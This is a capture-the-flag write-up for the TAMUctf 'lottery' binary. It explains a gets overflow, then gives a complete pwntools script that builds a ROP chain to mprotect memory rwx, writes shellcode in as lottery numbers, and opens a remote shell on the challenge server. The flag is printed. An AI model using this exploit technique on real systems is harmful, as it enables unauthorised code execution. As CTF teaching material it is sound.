





# lottery

## Description

Attack this binary and get the flag!

```nc challenges.tamuctf.com 5906```

## Solution

`gigem{3x3cu74bl3_rn6}`

Except I didn't make the rng executable, whoops!

To start, I looked at main, and we see the creation of two maps:



These maps are read/write only, so we can't use them for executing code (at least at first):



We then enter this menu with a whole mess of options:



A Ghidra plugin I use noted that there was a `gets` call in `ask_name`, so I looked further into that:



Okay, so we have a ROP entry point. Bonus round: we have a region of memory which we know to be allocated (the two maps we saw earlier in main). Bonus bonus: it looks like we can enter numbers into the ENTERED_NUMBERS map (as the program checks whether or not we actually won the lottery):



(Amusingly, I never found where the map is actually written to but it doesn't really matter for our purposes)

Thus, our chain is:

1. make the ENTERED_NUMBERS map rwx
2. write shellcode into ENTERED_NUMBERS
3. jump to ENTERED_NUMBERS
4. profit

```python
from pwn import *

context.terminal = ['tilix', '-e']
context.arch = "x86_64"

elf = ELF("./lottery")
rop = ROP(elf)

# depth of the stack + extrapop in ask_name
depth = 0x48

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
pop_rdx = rop.find_gadget(['pop rdx', 'ret'])[0]
mprotect = elf.symbols['__mprotect']
menu = elf.symbols['menu']
jmp_rdx = next(elf.search(asm('jmp rdx')))

# mprotect ENTERED_NUMBERS to rwx
# fill to stack + extrapop depth
mprotect_chain = cyclic(depth)
# rdi = 0x20000000 = ENTERED_NUMBERS
mprotect_chain += p64(pop_rdi) + p64(0x20000000)
# rsi = 0x40
mprotect_chain += p64(pop_rsi) + p64(0x40)
# rdx = 0x7 = PROT_READ | PROT_WRITE | PROT_EXEC
mprotect_chain += p64(pop_rdx) + p64(0x7)
# mprotect()
mprotect_chain += p64(mprotect)
# menu()
mprotect_chain += p64(menu)

# shellcode!
shellcode = asm(shellcraft.amd64.linux.sh())
# and some padding
shellcode = shellcode + b"\0" * (0x40 - len(shellcode))

# invoke shellcode by jumping to ENTERED_NUMBERS
# fill to stack + extrapop depth
shellcode_chain = cyclic(depth)
# rdx = 0x20000000 = ENTERED_NUMBERS
shellcode_chain += p64(pop_rdx) + p64(0x20000000)
# jmp ENTERED_NUMBERS
shellcode_chain += p64(jmp_rdx)

# p = elf.debug(gdbscript="break gets\ncontinue\nfinish")
p = remote("34.123.3.89", 5906)
# p = elf.process()

# enter our "name" for mprotect chain
p.recvuntil("Action: ")
p.sendline(b"3")
p.sendline(mprotect_chain)

# enter our "numbers"
p.recvuntil("Action: ")
p.sendline(b"1")
for i in range(0, 16):
    p.recvuntil("Enter number " + str(i+1) + ": ")
    # turn 4 bytes of shellcode into an integer
    num = struct.unpack("<L", shellcode[:4])[0]
    shellcode = shellcode[4:]
    # input of program is in hex
    p.sendline(hex(num))

# enter our "name" for our shellcode execution chain
p.recvuntil("Action: ")
p.sendline(b"3")
p.sendline(shellcode_chain)
p.recvline()

# shell acquired
p.interactive()
```
